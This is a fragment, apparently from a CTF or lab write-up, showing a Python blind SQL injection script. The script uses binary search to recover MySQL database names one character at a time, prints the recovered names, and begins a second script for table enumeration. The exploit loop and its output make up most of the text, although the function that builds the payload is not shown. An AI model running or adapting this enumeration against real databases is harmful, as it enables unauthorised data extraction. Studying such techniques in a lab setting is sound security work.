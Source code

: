 ```python
    for i in range(0,length):
        ok = 0
        ng = 127
        while ok + 1!= ng:
            md = (ok + ng) // 2
            print("    [+] try " + str(md) + "  i: " + str(i) + "  times:" + str(times))
            query = create_2tansaku_query(md,i+1,times)
            res = attack(query)
            if check_result(res):
                ok = md
            else:
                ng = md
        print(str(ok))
        fix_pass += str(chr(ok))
        print("")
        print("progress: " + str(i+1) +"/" + str(length))
        print("result: " + fix_pass)
        print("")
    return fix_pass

#length = exploit_length()
#length = 24
#exploit_2tansaku(int(length))

result = []
loop_times = 100

for i in range(loop_times):
    print("[*] " + str(i) + " times")
    print("")
    length = exploit_length(i)
    res = exploit_2tansaku(length,i)
    if(res == ""):
        print("[-] fix_pass is None. loop break")
        break
    result.append(res)

print("")
print("[-] exploit finished")
[print(a) for a in result]
```
```txt
$ python3 mysql-enum-databases-get-binarysearch.py

省略

[-] exploit finished
information_schema
level5
mysql
performance_schema
```
**mysql-enum-tables-get-binarysearch.py**  
```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import os
import requests
import urllib.parse
import urllib3
from urllib3.exceptions import InsecureRequestWarning
urllib3.disable_warnings(InsecureRequestWarning)

```